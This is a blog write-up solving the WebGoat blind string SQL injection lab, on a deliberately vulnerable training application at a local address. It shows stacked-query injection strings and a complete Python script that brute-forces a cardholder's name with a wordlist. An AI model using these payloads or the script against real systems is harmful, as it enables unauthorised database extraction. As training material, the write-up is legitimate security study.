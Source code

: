 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Injection Flaws"
subtitle: "Blind SQL Injection (String)"
date:   2017-01-30 07:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Blind String SQL Injection 
Instructions:

- The form below allows a user to enter an account number and determine if it is valid or not. Use this form to develop a true / false test check other entries in the database.
- Reference Ascii Values: 'A' = 65 'Z' = 90 'a' = 97 'z' = 122
- The goal is to find the value of the field name in table pins for the row with the cc_number of 4321432143214321. The field is of type varchar, which is a string.
- Put the discovered name in the form to pass the lesson. Only the discovered name should be put into the form field, paying close attention to the spelling and capitalization.

Building off of the last challenge for Blind Numeric SQL Injection, let's design a request to find the name of the owner of credit card ```4321432143214321```. Let's check out our first request again:

```
account_number=101&SUBMIT=Go%21
```
Alright, same as before. Let's try to append our blind query onto that request now:

```
101;select * from pins where cc_number = 4321432143214321--
```

And let's add our brute-force section:

```
101;select * from pins where cc_number = 4321432143214321 and name = x--
```

The problem with this is that we don't know how long the name is. Additionally, compared to with numbers, the amount of guesses that are required to brute-force a string of the same length is 45-fold at only 4 characters, and 118-fold at 5 characters (and that is assuming they used no capitals or a leading capital letter in their name):

```
26**4 / 10**4 = 45
26**5 / 10**5 = 118
```

So clearly we have a huge entropy issue. How can we cut this down to an attainable level? Because my laptop certainly doesn't have the NSA's brute-force power. I found the answer, again, in wordlists. With a quick [google search][crackers-namelist] I was able to find a pretty substantial wordlist of common names. Now let's modify our wordlist brute-force script into a Blind String SQL Injection machine:

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"another-long-path/names.txt",
]


def main():
	namelist = []
	print "[+] Populating the namelist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			namelist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(namelist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,name in enumerate(namelist):
		capitalized_name = name[0].upper() + name[1:]
		print ("[*] Attempt {} | Name: {}".format(index, capitalized_name))
		attempt = "101;select * from pins where cc_number = 4321432143214321 and name = '{}'--".format(capitalized_name)
		payload= {"account_number":attempt,"SUBMIT":"Go%21"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=13&menu=1100", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "account number is valid" in r.text.lower():
				print ("[+] SUCCESS! Name is: {}".format(capitalized_name))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()
{% endhighlight %}

Awesome, let's give it a run!

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_15/brute-string-failure.jpg">

Oh man...That's a bummer. Now it could be a few things causing this failure, one of which would be a non-comprehensive wordlist. Somehow I decided this was probably not the case though. I didn't think that the capitalization would be on any letter but the first, as all previous challenges did not have that pattern. I thought that the most likely source of failure was the formatting of the SQLi statement. Looking it over, I realized that I had not string-escaped our ```name``` guesses! Let's change that and cross our fingers...

```
101;select * from pins where cc_number = 4321432143214321 and name = 'x'--
```

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_15/brute-string-success.jpg">

Awesome! Wordlists and Python strike again.

### References

[1. Cracker's Namelist][crackers-namelist]

[crackers-namelist]:http://www.outpost9.com/files/wordlists.html